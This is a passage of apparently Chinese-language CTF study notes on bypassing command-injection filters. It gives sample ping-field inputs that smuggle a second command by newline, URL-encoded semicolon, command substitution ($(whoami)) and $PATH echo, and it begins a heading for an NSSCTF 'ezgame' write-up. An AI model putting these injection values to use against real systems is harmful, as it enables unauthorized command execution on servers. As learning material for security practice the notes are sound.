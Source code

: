 - 在某些环境下可用换行符结束当前命令，执行新命令。

  ```
  127.0.0.1
  ls
  ```

### 8. **URL 编码/Unicode 编码**

- 利用编码绕过过滤器。

- 例如 `%3B` 是分号 `;` 的 URL 编码。

  ```
  127.0.0.1%3Bls
  ```

### 9. **命令替换 + 拼接**

- 利用 shell 命令替换和字符串拼接组合攻击。

  ```
  127.0.0.1;echo $(whoami)
  ```

### 10. **环境变量利用**

- 利用系统环境变量执行命令。

  ```
  127.0.0.1;echo $PATH
  ```

# [NSSCTF 2022 Spring Recruit]ezgame

![image-20250803092945299](./NSSCTF-2.assets/image-20250803092945299.png)
